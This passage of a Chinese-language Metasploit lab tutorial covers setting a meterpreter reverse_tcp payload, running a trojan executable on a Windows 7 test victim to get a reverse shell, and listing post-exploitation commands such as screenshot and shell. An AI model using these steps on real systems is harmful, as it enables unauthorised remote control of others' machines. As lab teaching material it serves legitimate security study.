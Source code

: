 设置payload，以Windows为例

```
set payload windows/meterpreter/reverse_tcp
```

![v2-d5a5f77f260a3da4cf07d61ffe913079_1440w.jpg](images/1619480573_60874ffde912c1d33a614.jpg!small)

设置本机IP，set LHOST 你的IP

![v2-25b157b88d55fda274e888cdbb052f2a_1440w.jpg](images/1619480574_60874ffe447dd5de9c998.jpg!small)

设置监听端口，set LPORT 监听的端口

![v2-ed1479965fcef4e693fc5466f40eb6bc_1440w.jpg](images/1619480574_60874ffeb9bca230d294c.jpg!small)

查看配置

![v2-8a35710ae0baf749f515a2742888760a_1440w.jpg](images/1619480575_60874fff17b80984356e7.jpg!small)

开启监听

![v2-7284c817b0dfc33acb30c2c39a7a547a_1440w.jpg](images/1619480575_60874fff666cad6f98558.jpg!small)

### 3.3 反弹shell

受害机：Windows 7

将2.2中生成的木马msf.exe上传到win7中

![v2-ef3b6f793415bcf91c0d33d6134baac5_1440w.jpg](images/1619480575_60874fffc825cbf95ad15.jpg!small)

运行msf.exe，返回kali查看效果

![v2-3a90609e02c356758ed80c16c4b7baab_1440w.jpg](images/1619480576_6087500028f49dcafe412.jpg!small)

成功获取shell，此时可以进行下一步的攻击操作了

### **3.4 后渗透**

当我们的木马成功反弹目标机shell后，第一步就是获取目标机的一些基础信息，例如系统版本，网段，AD等…MSF已经为我们提供了一些便捷的功能

```
注：下列命令都是在meterpreter下运行
```

background：将会话放回后台

exit：关闭会话

help：查看帮助信息

sysinfo：查看系统信息

screenshot：截取屏幕

shell cmd：执行目标系统命令
